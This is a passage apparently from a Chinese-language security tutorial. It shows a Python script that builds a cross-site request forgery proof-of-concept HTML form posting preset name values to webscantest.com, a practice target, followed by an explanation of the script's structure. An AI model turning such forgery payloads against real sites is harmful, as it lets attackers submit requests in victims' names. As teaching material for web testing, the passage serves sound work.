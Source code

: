 ```
#!/usr/bin/env python3
from bs4 import BeautifulSoup

def generate_poc():
    method="POST"
    encoding_type="application/x-www-form-urlencoded"
    action="http://webscantest.com/crosstraining/aboutyou.php"
    fields = [
        {
            "type":"text",
            "name":"fname",
            "label":"fname",
            "value":"William"
        },
        {
            "type":"text",
            "name":"lname",
            "label":"lname",
            "value":"Mandella"
        },
        {
            "type":"text",
            "name":"nick",
            "label":"nick",
            "value":"Major Mandella"
        }
    ]

    content = BeautifulSoup("<html></html>", "html.parser")
    html_tag = content.find("html")
    form_tag = content.new_tag("form", action=action, method=method, enctype=encoding_type)
    html_tag.append(form_tag)

    for field in fields:
        label_tag = content.new_tag('label')
        label_tag.string = field['label']
        field_tag = content.new_tag("input", type=field['type'], value=field['value'])
        field_tag['name'] = field['name']
        form_tag.append(label_tag)
        form_tag.append(field_tag)

    submit_tag = content.new_tag("input", type="submit", value=action)
    form_tag.append(submit_tag)

    return content.prettify()

if __name__ == "__main__":
    print(generate_poc())
```

如果你熟悉 Python，你会注意到逻辑被封装在一个函数中，然后在`if __name__ == "__main__"`条件中引导，这样当我们从命令行运行脚本时就会得到预期的行为（HTML 被打印到`STDOUT`）。同时，我们可以构建其他 Python 模块，导入`generate_poc()`函数而不会产生副作用。
